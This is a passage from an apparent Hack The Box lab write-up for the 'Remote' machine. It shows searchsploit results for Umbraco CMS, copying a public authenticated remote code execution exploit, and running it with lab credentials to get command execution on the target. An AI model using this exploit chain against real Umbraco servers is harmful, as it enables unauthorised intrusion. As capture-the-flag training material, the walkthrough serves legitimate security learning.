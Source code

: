 We couldn't login as `admin` but we were successful with `admin@htb.local`

# **Foothold**

## Searchsploit

Searching for Umbraco in `searchsploit` we find it's vulnerable to an authenticated remote code execution.

```terminal
$ searchsploit Umbraco                 
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                              |  Path
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Umbraco CMS - Remote Command Execution (Metasploit)                                                                         | windows/webapps/19671.rb
Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution                                                                  | aspx/webapps/46153.py
Umbraco CMS 7.12.4 - Remote Code Execution (Authenticated)                                                                  | aspx/webapps/49488.py
Umbraco CMS 8.9.1 - Directory Traversal                                                                                     | aspx/webapps/50241.py
Umbraco CMS SeoChecker Plugin 1.9.2 - Cross-Site Scripting                                                                  | php/webapps/44988.txt
Umbraco v8.14.1 - 'baseUrl' SSRF                                                                                            | aspx/webapps/50462.txt
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Let's copy the exploit `aspx/webapps/49488.py`.

```terminal
$ searchsploit -m aspx/webapps/49488.py                                              
  Exploit: Umbraco CMS 7.12.4 - Remote Code Execution (Authenticated)
      URL: https://www.exploit-db.com/exploits/49488
     Path: /usr/share/exploitdb/exploits/aspx/webapps/49488.py
File Type: Python script, ASCII text executable, with very long lines

Copied to: /home/sirius/CTF/HTB/Machines/remote/49488.py
```

Let's test the exploit.

```terminal
$ python 49488.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180/ -c whoami
iis apppool\defaultapppool
```

Great! We got command execution.
